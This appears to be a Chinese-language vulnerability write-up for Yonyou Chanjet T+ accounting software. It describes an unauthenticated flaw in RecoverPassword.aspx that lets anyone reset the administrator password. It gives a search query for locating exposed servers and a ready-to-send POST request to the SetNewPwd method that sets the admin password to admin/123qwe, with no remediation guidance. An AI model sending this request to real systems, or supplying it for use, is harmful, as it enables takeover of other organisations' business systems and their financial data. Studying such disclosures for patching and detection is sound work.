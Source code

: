 # 用友 畅捷通T+ RecoverPassword.aspx 管理员密码修改漏洞

## 漏洞描述

用友 畅捷通T+ RecoverPassword.aspx 存在未授权管理员密码修改漏洞，攻击者可以通过漏洞修改管理员账号密码登录后台

## 漏洞影响

```
用友 畅捷通T+
```

## 网络测绘

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20220909104559292](images/202209091048224.png)

验证POC, 重置账号密码为 `admin/123qwe`

```
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd

{"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"}
```

![image-20220909104816391](images/202209091048450.png)